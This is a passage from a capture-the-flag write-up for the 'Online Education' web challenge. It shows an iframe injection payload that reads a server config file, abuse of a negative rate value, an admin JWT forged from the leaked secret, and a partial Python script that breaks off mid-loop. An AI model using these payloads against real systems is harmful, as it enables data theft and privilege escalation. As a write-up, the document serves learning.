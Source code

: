 This approach worked, here is the flag:

```
SCTF{I_w4nt_t0_l1v3_in_a_wOrld_w1thout_MATH}
```

# Online Education

```
Authors: SirFrigo & Daloski
Description: Forge custom cookie using information leak from path traversal
Category: Web
Points: 139
```

> I made an online education service!
> Watching education videos is so boring :(
> Server: http://onlineeducation.sstf.site
> Download: OnlineEducation.zip

The objective is to get the certificate by completing the courses and using the certificate to leak some secrets.

1. To get the certificate we first start a course and then finish it using a negative "rate" (we out -2000). This is done with POST requests to ```/status```, first with attribute ```{"action":"start"}```, and then ```{"action":"finish", "rate":-2000}```. Repeat this 3 times to finish all courses.
2. To leak info from the certificate we use a SSTI using as email:

```
test@test.com<iframe src='file:///home/app/config.py'></iframe>
```

This will put ```config.py``` content inside the certificate pdf. <br>
From the leak, we take the ```secret_key``` and craft a custom cookie with [jwt.io](https://jwt.io/), writing:

{% highlight json %}
{
  "email": "ciao@ciao.com",
  "idx": 0,
  "is_admin": true,
  "name": "ciao",
  "alg": "HS256"
}
{% endhighlight %}

Then we use that cookie to get the flag in ```/flag```.

Here is the script to leak ```secret_key```:

{% highlight python %}
import requests


base_url = "http://onlineeducation.sstf.site/"
s = requests.Session()
name = "test"
email = "test@test.com<iframe src='file:///home/app/config.py'></iframe>"
res = s.post(base_url + "signin", data={
    'name' : name,
    'email' : email
})

for _ in range(3):
    res = s.post(base_url + "status", json={
            "action" : "start"
        },
        headers = {
            'X-Requested-With' : 'XMLHttpRequest'
        }